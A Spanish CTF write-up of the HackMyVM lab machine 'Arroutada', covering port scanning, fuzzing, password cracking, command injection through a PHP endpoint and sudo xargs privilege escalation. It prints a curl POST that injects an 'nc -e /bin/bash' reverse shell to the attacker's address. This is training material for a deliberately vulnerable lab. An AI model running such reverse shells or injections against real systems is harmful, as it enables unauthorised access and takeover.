 ```yaml
---
layout      : post
title       : "Arroutada - HackMyVm"
author      : elc4br4
image       : assets/images/HMV/Arroutada-HackMyVM/Arroutada.webp
category    : [ HackMyVM ]
tags        : [ Linux ]
---
```


En esta ocasión resolvemos la máquina **Arroutada** creada por Rijaba1 que está disponible en la plataforma de **HackmyVm**.

**Un pequeño INDICE**

1. [Reconocimiento](#reconocimiento).
2. [Explotación](#explotación).
3. [Escalada de Privilegios](#priv-esc).


***


# Reconocimiento [#](reconocimiento) {#reconocimiento}


Comenzamos como siempre lanzando **nmap** para realizar un reconocimiento de puertos.

`nmap -p- -Pn -n --min-rate 5000 192.168.0.30`

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled.png)

A continuación lanzo una serie de scripts básicos de nmap (sC) y el parámetro sV para descubrir los servicios y versiones que corren en cada puerto, en este caso solo en el puerto 80, ya que es el único puerto abierto.

`nmap -p80 -sCV -n -Pn 192.168.0.30`

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%201.png)

Tenemos un servidor **apache httpd 2.4.54** y poco más, por lo que comienzo a enumerar.

# Explotación [#](explotación) {#explotación}

Tras acceder desde el navegador encontré lo siguiente:

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%202.png)

Parece una simple imagen pero podría tener algo escondido por lo que decido descargarla y lanzar herramienta **exiftool** para **analizar los metadatos de la imagen** y buscar posibles pistas.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%203.png)

Y encuentro una ruta “**/scout**” por lo que accedo a ella desde el navegador.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%204.png)

Vemos otra ruta **/scout/******/docs** pero nos falta descubrir la ruta que hay entre medias, por lo que toca **fuzzear** y para ello usaré **wfuzz**.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%205.png)

Y encuentro la ruta **/j2**, por lo que ya tengo la ruta completa asique accedo a la misma desde el navegador.

Al accede encuentro un montón de archivos.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%206.png)

En el archivo **pass.txt** no hay nada de interés pero el archivo **shellfile.ods** si me llama la atención, la **extensión .ods** es de **LibreOffice** por lo que lo descargo y lo abro pero me pide contraseña…

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%207.png)

Para poder craquearlo existe una utilidad de **John The Ripper** llamada **libreofficejohn2.py** con la que puedo generar el hash y craquearlo después.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%208.png)

Ahora lo crackeo con John y obtengo la contraseña.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%209.png)

**john11** es la contraseña.

Abro el archivo y encuentro esto.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2010.png)

Encuentro otra ruta, esta vez un archivo php, por lo que podría haber un **RCE** asique pruebo a fuzzear de nuevo…

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2011.png)

Veo que el parámetro a es el que necesito para ejecutar el RCE pero al intentarlo me arroja otro un error.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2012.png)

Se me ocurre combinar el parámetro **a con el b** y **fuzzear** de nuevo.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2013.png)

Y por suerte lo consigo.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2014.png)

Por lo que ahora intento obtener acceso al sistema introduciendo una **reverse shell en netcat**.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2015.png)

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2016.png)

Consigo acceso a la máquina pero primero he de realizar el tratamiento de la tty.

```bash
script /dev/null -c bash
CTRL+Z
stty raw -echo; fg
reset
xterm-256color
export XTERM=xterm-256color
export SHELL=bash
```

Tras **actualizar la tty** echo un vistazo a los usuarios existentes en la máquina y veo que existe el usuario **drito**, por lo que lo primero será migrarme a este usuario asique procedo a enumerar un poco…

Lo primero que hago es buscar **procesos existentes** pero no veo nada que me llame la atención, por lo que mi siguiente paso es buscar algún puerto abierto…

Hago uso del comando **netstat** pero no está instalado en el sistema por lo que pruebo a usar `ss -tulpn` y veo que existe el **puerto 8000** abierto.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2017.png)

Para poder acceder a este puerto he de usar **chisel** o parecidos para poder efectuar un **Port Forwarding**.

Paso el binario de **chisel** a la máquina víctima y efectúo los siguientes comandos.

- En la máquina atacante

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2018.png)

- En la máquina víctima

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2019.png)

Ahora ya puedo acceder al puerto 8000 desde mi navegador, y encuentro lo siguiente.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2020.png)

Es una cadena ofuscada en Brainfuck, por lo que la desofusco y veo el contenido.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2021.png)

- all HackMyVM hackers!!

Pero no me sirve de nada por lo que regreso al navegador e inspecciono el código fuente por si me he dejado algo por ahí…

Y por suerte encuentro una ruta **/priv.php**

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2022.png)

Accedo a la ruta e inspecciono el código fuente

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2023.png)

Nos dice que falta un parámetro (command) y podemos ver que el propio parámetro ha de ir en json, por lo que vamos a probar a hacerle una petición POST con curl usando el parámetro command y metiendo la data en json.

Esto lo hago de la siguiente forma:

```bash
curl -X POST "http://127.0.0.1:8000/priv.php" -d ´{"command": "whoami;id;hostname"}´             
```

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2024.png)

Al ver que funciona lo que hago es intentar ganar acceso a la máquina a través de una reverse shell en netcat.

```bash
curl -X POST "http://127.0.0.1:8000/priv.php" -d ´{"command": "nc -e /bin/bash 192.168.0.18 1234"}´
```

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2025.png)

Consigo ganar acceso a la máquina como el usuario **drito**, por lo que lo siguiente paso es escalar privilegios a root, pero antes como de costumbre lo primero es actualizar la tty.

```bash
script /dev/null -c bash
CTRL+Z
stty raw -echo; fg
reset
xterm-256color
export XTERM=xterm-256color
export SHELL=bash
```
# ESCALADA DE PRIVILEGIOS [#](priv-esc) {#priv-esc}

Tras actualizar la tty lanzo el comando `sudo -l.`

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2026.png)

Puedo ejecutar el binario xargs como root sin contraseña por lo que lo primero que se me ocurre al tratarse de un binario es dirigirme a [gtfobins](https://gtfobins.github.io/).

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2027.png)

Ejecuto el comando y… me convierto en **root**.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2028.png)

Gracias Rijaba por esta máquina!!!! 